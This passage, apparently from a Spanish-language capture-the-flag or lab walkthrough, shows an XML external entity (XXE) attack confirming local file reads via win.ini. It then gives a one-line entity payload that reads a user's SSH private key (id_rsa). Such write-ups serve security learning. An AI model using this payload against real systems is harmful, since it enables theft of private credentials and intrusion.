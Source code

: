La respuesta muestra contenido del fichero `win.ini`:  
Se confirma que podemos **leer archivos locales**.

## 🔐 4. Robo de clave privada SSH

Se intenta acceder al fichero `id_rsa` del usuario `daniel`:

```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///C:/Users/daniel/.ssh/id_rsa"> ]>
```

![](../img/1ceb3d7ef03f905098d1092d1e2bc0bf.png)
